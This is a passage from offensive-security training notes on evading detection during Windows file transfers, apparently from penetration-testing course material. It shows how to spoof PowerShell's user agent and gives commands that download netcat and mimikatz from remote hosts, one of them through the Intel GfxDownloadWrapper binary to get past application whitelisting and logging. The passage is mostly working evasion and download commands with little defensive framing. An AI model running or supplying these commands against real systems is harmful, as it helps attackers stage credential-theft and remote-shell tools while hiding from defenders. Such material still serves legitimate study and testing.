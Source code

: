 ### 4. Response Planning

- Develop incident response procedures
- Plan for containment and eradication
- Practice response scenarios regularly

## Evading Detection

### Changing User Agent

If administrators have blacklisted specific user agents, `Invoke-WebRequest` contains a `UserAgent` parameter that allows changing the default user agent to emulate different browsers. This can make requests appear legitimate.

### Listing Available User Agents

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

**Available User Agents:**
- **InternetExplorer:** `Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)`
- **FireFox:** `Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0`
- **Chrome:** `Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0 Safari/534.6`
- **Opera:** `Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1`
- **Safari:** `Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0 Safari/533.16`

### Using Chrome User Agent

```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

**Server Detection (with Chrome User Agent):**
```http
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

### LOLBAS / GTFOBins

Application whitelisting may prevent using PowerShell or Netcat, and command-line logging may alert defenders. In such cases, "LOLBIN" (Living Off The Land Binary) or "misplaced trust binaries" can be used.

**Example - Intel Graphics Driver:**
```powershell
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```
